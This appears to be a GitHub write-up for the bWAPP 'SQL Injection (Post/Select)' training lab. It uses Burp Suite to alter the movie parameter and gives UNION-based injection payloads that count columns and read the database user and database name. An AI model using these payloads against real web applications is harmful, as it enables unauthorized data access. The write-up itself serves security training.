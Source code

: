 # bWAPP SQL Injection (Post/Select) WriteUp

When we first open the challenge web page, we see that there is a combo box for selecting a movie and there is also
an empty table for the movies.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20194627.png)

Let's try to select a movie and see what will happen.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20194642.png)

So Let's try another movie and open burpsuite to intercept the request and inject our query.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20194656.png)

Let's change the value of the movie in the last line to see how many columns we have in the displayed table, we will use `order by` function to know it

```MYSQL
0 order by 1 #
```

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201153.png)

Then forward the request.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201202.png)

We will repeat this code until it gives us an error.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201222.png)

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201234.png)

So now the querey gave us an error at column number 8 which appears that it does not exist, therefore the table which we exploit the data from 
contains 7 columns.And wait we see that not all columns appear in the web page so let's try to configure out which column is on screen and which is not.

```MYSQL
0 union select 1,2,3,4,5,6,7 #
```

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201300.png)

And forward the request.

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201307.png)

Now we can inject some SQL quereies to get the user from the database or the name of the database itself.
First,Let's begin to find the user of the database.

```MYSQL
0 union select 1,user(),3,4,5,6,7 #
```

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201445.png)

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201453.png)

Second,Let's try finding the name of the database used.

```MYSQL
0 union select 1,2,3,database(),5,6,7 #
```

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201530.png)

![alt text](https://github.com/nody77/CTFs-Writeups/blob/9139cc74b4d085c8590da161451fb65d48a5f3ce/Screenshot%202023-03-29%20201538.png)
